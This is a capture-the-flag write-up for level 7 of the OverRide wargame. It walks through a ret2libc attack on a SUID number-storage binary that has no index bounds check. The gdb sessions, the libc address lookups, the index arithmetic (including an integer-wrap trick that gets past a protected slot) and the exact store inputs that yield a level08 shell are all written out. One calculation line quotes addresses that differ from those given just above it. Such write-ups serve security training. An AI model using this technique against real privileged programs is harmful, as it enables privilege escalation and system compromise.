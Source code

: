 # Level 7

## Vulnerability

Unprotected Data Array, Ret2Libc Attack

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### main() overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

The program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

Vulnerability: no check performed on the index and unsigned int table is stored on the stack. This means we can read and store in stack memory. 

We know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) find table index of EIP (answer is 114)
3) index 114 is protected. Need to use maxint overflow to access
4) exploit by inputting malicious number + index to running program

Let's do step 1. 
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- ```"/bin/sh"``` is at 0xf7f897ec Note: we will flip these for little endian!

Let's do step 2. 
We need to find the index in the table where we reach EIP, and then store our payload there using ```store_number()```. 

The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```

Next, we need to calculate the 'index' of our EIP address. 
```
0xffffd63c   -   0xffffd474    =    int(0x1c8)  =  456
eip_address     table_address                    [bytes]

456 / 4  =  114
          index in table

114 % 3 = 0
```


We're going to write our payload at the address of EIP. 
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec
```











### Build exploit

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

## Recreate Exploited Binary


